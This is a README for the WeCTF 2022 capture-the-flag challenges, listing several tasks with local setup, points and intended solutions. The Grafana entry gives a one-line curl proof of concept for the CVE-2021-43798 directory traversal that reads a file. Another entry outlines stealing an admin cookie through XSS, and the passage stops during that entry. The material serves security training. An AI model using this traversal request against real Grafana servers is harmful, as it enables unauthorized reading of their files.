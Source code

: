 # WeCTF 2022

Thank you for participating! Please share your writeup at CTFtime https://ctftime.org/event/1546/.

### Run Challenges Locally (WIP, not fully working yet)
```bash
git clone https://github.com/wectf/2022
cd 2022 && docker-compose up
```

### Dino Run

Welcome to WECTF! Play this tiny multiplayer game and get the easy flag.


> Source Code: [dino-run/](https://github.com/wectf/2022/tree/master/dino-run)  
> Local Address (WS): http://localhost:1001  
> Local Address (Frontend): http://localhost:1012  
> Solved Count: 159  
> Points: 10  

Intended Solution: 
* Simply go to the bottom right corner and the flag is alerted.

### Grafana

It looks safe, does it? After all it has a fancy UI so it must be safe.


> Source Code: [grafana/](https://github.com/wectf/2022/tree/master/grafana)  
> Local Address: http://localhost:1002  
> Solved Count: 100  
> Points: 16  
> Attack Type: Directory Traversal  

Intended Solution: 
* A Grafana (v8.3.0) instance is provided and the task is to leak flag at `/tmp/flag`. 
* There is a known vulnerability CVE-2021-43798 that could lead to directory traversal.


PoC:

```bash
curl --path-as-is [TARGET]/public/plugins/alertmanager/../../../../../../../../tmp/flag
```

### Google Wayback


A copycat site of Google in 2001.  

Hint: Do you know Google used to have XSS?  

An admin bot is going to visit the link you provided and your task is to leak the cookie of admin. You can simulate this locally but first navigate to the site, execute JavaScript: `document.cookie = "flag: we{test}"` and finally visit the link that points to your payload. 
